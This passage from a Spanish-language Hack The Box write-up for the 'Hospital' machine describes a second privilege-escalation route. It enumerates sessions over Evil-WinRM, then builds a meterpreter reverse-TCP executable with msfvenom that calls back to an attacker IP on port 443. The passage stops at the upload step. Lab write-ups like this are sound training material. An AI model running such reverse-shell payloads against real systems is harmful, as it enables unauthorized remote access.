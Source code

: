 <img src="/assets/hackthebox/img/machines/medium/hospital/15.png">
</p>

## La otra forma de escalar privilegios

- En esta maquina existe otra forma de escalar privilegios si vemos las sesiones activas en el sistema vemos que hay una sesión activa por el doctor cada usuario corre tareas o servicios del sistema para enumerarlos vamos a usar `Metasploit`.

```bash
*Evil-WinRM* PS C:\xampp\htdocs> qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           drbrown                   1  Active
 rdp-tcp                                 65536  Listen
```

- Lo primero que vamos a hacer ejecutarnos un `.exe` para ganar acceso.

```bash
➜  content msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.71 LPORT=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

- Ahora lo subimos.
